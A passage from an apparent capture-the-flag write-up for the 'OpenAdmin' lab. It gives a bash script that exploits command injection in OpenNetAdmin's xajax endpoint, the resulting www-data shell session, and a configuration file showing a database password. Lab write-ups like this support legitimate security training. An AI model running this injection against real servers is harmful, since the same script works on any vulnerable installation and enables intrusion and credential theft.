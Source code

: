 ```
#!/bin/bash

URL="http://openadmin.htb/ona/"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Now its time to run the script.....

## **<span style='color:#ff5555'>www-data</span>**
***
```
root@corshine:~# ./exploit.sh 
$ whoami
www-data
$ hostname
openadmin
$
```
After few minutes of enumeration, I found a file called `database_settings.inc.php` in `local/config`

```
$ ls local/config
database_settings.inc.php
motd.txt.example
run_installer
$
```

```
$ cat local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

